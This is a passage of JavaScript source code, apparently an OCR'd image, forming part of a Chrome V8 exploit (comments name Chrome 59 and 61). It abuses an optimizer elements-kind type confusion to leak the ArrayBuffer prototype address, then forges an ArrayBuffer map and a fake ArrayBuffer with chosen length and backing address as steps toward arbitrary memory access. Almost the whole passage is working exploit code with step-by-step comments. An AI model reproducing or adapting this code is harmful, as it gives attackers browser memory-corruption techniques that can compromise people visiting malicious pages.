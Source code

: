 ```
}
optimizer4 = new Array({});
optimizer4.x4 = {};
change_elements_kind_parameter(optimizer4);
map_manipulator4 = new Array(1.1,2.2);
map_manipulator4.x4 = 0x123;
change_elements_kind_parameter(map_manipulator4);
map_manipulator4.x4 = {};
evil4 = new Array(1.1,2.2);
evil4.x4 = {};
for(var i = 0;i<0x100000;i++){
	change_elements_kind_parameter(optimizer4,arraybuffer.__proto__);
}
function e4(){
	return evil4[0];
}
for(var i = 0;i<0x100000;i++){
	e4();
}
change_elements_kind_parameter(evil4,arraybuffer.__proto__);
ab_proto_addr = u2d(e4());
var nop = 0xdaba0000;
var ab_map_obj = [
	nop,nop,
	0x1f000008,0x000900c3,   //chrome 59
	//0x0d00000a,0x000900c4,  //chrome 61
	0x082003ff,0x0,
	nop,nop,   // use ut32.prototype replace it
	nop,nop,0x0,0x0
]
ab_constructor_addr = ab_proto_addr - 0x70;
ab_map_obj[0x6] = ab_proto_addr & 0xffffffff;
ab_map_obj[0x7] = ab_proto_addr / 0x100000000;
ab_map_obj[0x8] = ab_constructor_addr & 0xffffffff;
ab_map_obj[0x9] = ab_constructor_addr / 0x100000000;
float_arr = [];
gc();
var ab_map_obj_float = [1.1,1.1,1.1,1.1,1.1,1.1];
change_to_float(ab_map_obj,ab_map_obj_float);
/******************************* step 2    read fake_ab_map_ address   ***************************************/
change_elements_kind_parameter(evil4,ab_map_obj_float);
ab_map_obj_addr = u2d(e4())+0x40;
var fake_ab = [
	ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
	ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
	ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
	0x0,0x4000, /* buffer length */
	0x12345678,0x123,/* buffer address */
	0x4,0x0
]
var fake_ab_float = [1.1,1.1,1.1,1.1,1.1,1.1];
change_to_float(fake_ab,fake_ab_float);
/******************************* step 3    read fake_ArrayBuffer_address   ***************************************/
change_elements_kind_parameter(evil4,fake_ab_float);
fake_ab_float_addr = u2d(e4())+0x40;
/******************************* step 4 fake a ArrayBuffer   ***************************************/
fake_ab_float_addr_f = d2u(fake_ab_float_addr / 0x100000000,fake_ab_float_addr & 0xffffffff).toString();
eval('function e3(){  evil3[1] = '+fake_ab_float_addr_f+';}')
for(var i = 0;i<0x6000;i++){
```